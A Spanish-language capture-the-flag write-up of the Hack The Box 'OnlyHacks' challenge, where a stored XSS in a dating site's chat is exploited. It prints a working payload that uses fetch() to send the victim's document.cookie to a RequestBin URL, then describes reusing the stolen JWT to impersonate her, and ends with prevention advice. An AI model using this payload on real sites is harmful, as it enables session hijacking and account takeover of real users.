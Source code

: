 
# OnlyHacks – Hack The Box

![](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/HTB-XSS.jpg)

**Categoría:** Challenges  
**Fecha:** Abril 4, 2025

---

## Descripción General

Este reto de Hack The Box simula una red social de citas. A través de una vulnerabilidad XSS (Cross-Site Scripting), logramos robar la sesión de otro usuario y obtener la flag final del reto.

---

## Accediendo a la Página

Iniciamos la máquina y HTB nos entrega el siguiente host:

```
94.237.63.165:32414
```

Pegamos el host en el navegador y se abre una red social de citas. Nos registramos con un usuario cualquiera y accedemos a la plataforma.

---

## Explorando la Aplicación

Al iniciar sesión, vemos perfiles para hacer "match". Hacemos match con una usuaria llamada **Renata** y comenzamos a chatear con ella.

---

## Prueba de XSS

Probamos si el campo de chat es vulnerable a XSS con un payload básico:

```html
<script>alert(0)</script>
```

El mensaje se ejecuta, lo que confirma que el chat es vulnerable a **XSS reflejado o almacenado**.

---

## Revisión del JWT

Inspeccionamos la aplicación (F12) y en la sección de almacenamiento encontramos una cookie con un **JWT (JSON Web Token)**. Este token mantiene la sesión activa del usuario.

Si robamos este token, podemos suplantar la identidad de otro usuario.

---

## Preparando el Ataque XSS con RequestBin

Usamos [RequestBin](https://requestbin.whapi.cloud/) para generar un endpoint que reciba las cookies robadas.

Ejemplo de URL generada por RequestBin:

```
http://requestbin.whapi.cloud/1iavnfa1
```

Luego, enviamos el siguiente payload XSS a Renata por el chat:

```html
<script>
fetch("http://requestbin.whapi.cloud/1iavnfa1?cookie=" + document.cookie);
</script>
```

### ¿Qué hace este script?

- **document.cookie**: Obtiene todas las cookies del navegador.
- **fetch()**: Envía una petición GET a nuestra URL con las cookies robadas como parámetro.

---

## Robando la Cookie de Renata

Cuando Renata abre el mensaje, su navegador ejecuta el script y su cookie llega a nuestro RequestBin.

Ahí podemos ver su JWT, que copiamos y usamos en nuestro navegador:

1. F12 > Almacenamiento > Cookies.
2. Sustituimos nuestro JWT por el de Renata.
3. Recargamos la página.

Ahora estamos autenticados como **Renata**.

---

## Obteniendo la Flag

Una vez dentro de la cuenta de Renata, abrimos su chat con otro usuario llamado **Dimitris**. En esa conversación encontramos la **flag final** del reto.

---

## Conclusiones

Este reto demuestra lo peligroso que puede ser un XSS si no se controla a tiempo. Con una simple línea de código es posible robar sesiones y acceder a información privada.

### ¿Cómo prevenirlo?

- **Sanitización de entradas**: No permitir que los usuarios inserten scripts en los campos.
- **Cookies HttpOnly**: Impiden que JavaScript acceda a las cookies.
- **SameSite Cookies**: Restringen el uso de cookies en peticiones entre sitios.

---

## Herramientas Utilizadas

- Navegador + Herramientas de desarrollador.
- RequestBin para capturar cookies.
- Payloads XSS básicos.

---

## Aprendizajes

- Cómo detectar y explotar una vulnerabilidad XSS.
- Cómo robar una sesión utilizando JWT.
- Cómo usar herramientas como RequestBin para capturar datos.

---

⚠ **Este material es solo para aprendizaje y CTFs legales. No lo uses en sistemas sin autorización.**
---

**En mi pagina web (Blog) subo las maquinas y/o challenges más a detalle, normalmento lo hago primero alla por quien guste puede checarlo de aquel lado tambien.** 

https://elyoxsecurity.com/category/maquinas/
